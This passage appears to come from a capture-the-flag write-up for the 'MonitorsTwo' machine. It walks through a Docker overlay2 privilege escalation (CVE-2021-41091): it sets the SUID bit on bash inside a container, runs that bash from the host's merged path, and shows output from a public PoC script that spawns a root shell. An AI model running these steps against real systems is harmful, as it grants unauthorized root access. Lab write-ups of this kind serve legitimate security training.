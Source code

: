 ### Prepare the privilege escalation
To make use of this, we need a file with a SUID bit set, which can lead us to privileged rights. If we already have root rights on the container, we can just add the SUID bit to `/bin/bash`.

Remembering that we already escalated our privs in the container, we can prepare the bash binary:
```
capsh --gid=0 --uid=0 --

id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
chmod +s /bin/bash
ls -al /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

### Escalate privileges
The last thing we have to do, is to hop into the directory and run that modified bash:
```
marcus@monitorstwo:~$ cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ./bin/bash -p
bash-5.1# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) egid=0(root) groups=0(root),1000(marcus)
bash-5.1# 
```

### Using script
To speed things up, we can also use a script. I used the following PoC: https://github.com/UncleJ4ck/CVE-2021-41091

This iterates over the `/var/lib/docker/overlay2` directories found by `findmnt` and tries to execute the modified `/bin/bash`. For our case, this would look like this:
```
marcus@monitorstwo:~$ ./exploit.sh 
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
[!] Available Overlay2 Filesystems:
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

[!] Iterating over the available Overlay2 filesystems !
[?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
[x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'

[!] Spawning Shell
bash-5.1# exit
marcus@monitorstwo:~$ cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ./bin/bash -p
bash-5.1# id
```